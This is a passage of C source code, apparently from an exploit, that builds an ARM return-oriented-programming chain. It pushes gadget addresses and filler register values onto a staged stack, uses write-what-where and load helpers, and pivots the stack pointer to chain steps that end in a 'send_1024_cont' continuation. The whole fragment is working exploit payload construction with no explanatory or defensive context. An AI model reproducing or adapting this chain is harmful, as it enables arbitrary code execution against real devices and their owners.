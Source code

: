             
            PUSH = pop_r4r7pc; // PC
            PUSH = segstackybase; // R4
            PUSH = m_m_scratch; // R7
            PUSH = mov_sp_r4_pop_r4r7pc; // PC
            
            
            *wcmpl = (((char*)stack) - ((char*)stackbase)) + segstackbase;
            PUSH = 0x44444444; // R4
            PUSH = m_m_scratch; // R7
            
            /* execute comparison */
            
            WriteWhatWhere(PUSH, m_m_scratch, SEG_VAR(tmp2));
            LoadIntoR0(PUSH, SEG_VAR(tmp1));
            
            PUSH = not_r0_pop_r4r7pc;
            PUSH = (uint32_t)SEG_VAR(tmp2);
            PUSH = m_m_scratch;
            PUSH = not_r0_pop_r4r7pc;
            PUSH = (uint32_t)SEG_VAR(tmp2);
            PUSH = m_m_scratch;
            
            
            PUSH = pop_r2pc;
            PUSH = 4*6;
            PUSH = muls_r0r2r0_ldr_r2r4_str_r248_pop_r4r5r7pc;
            PUSH = 0x44444444; // R4
            PUSH = 0x45454545; // R5
            PUSH = m_m_scratch; // R7
            PUSH = pop_r2pc;
            uint32_t* spz = stack;
            PUSH = 0;
            PUSH = add_r0_r2_pop_r4r5r7pc;
            PUSH = 0x44444444; // R4
            PUSH = 0x45454545; // R5
            PUSH = m_m_scratch; // R7
            
            PUSH = (uint32_t)pop_r4r7pc;
            uint32_t *tgt = stack;
            PUSH = - 8;
            PUSH = (uint32_t)m_m_scratch;
            PUSH = (uint32_t)str_r0_r4_8_pop_r4r7pc;
            PUSH = (uint32_t)0x44444444;
            PUSH = (uint32_t)m_m_scratch;
            
            PUSH = pop_r4r7pc; // PC
            *tgt += (((char*)stack) - ((char*)stackbase)) + segstackbase;
            PUSH = 0; // R4
            PUSH = m_m_scratch; // R7
            PUSH = mov_sp_r4_pop_r4r7pc; // PC
            
            *spz = (((char*)stack) - ((char*)stackbase)) + segstackbase;
            
            PUSH = 0x44444444;
            PUSH = m_m_scratch;
            PUSH = pop_r4r7pc; // PC
            PUSH = send_1024_cont; // R4
            PUSH = m_m_scratch; // R7
            PUSH = mov_sp_r4_pop_r4r7pc; // PC
            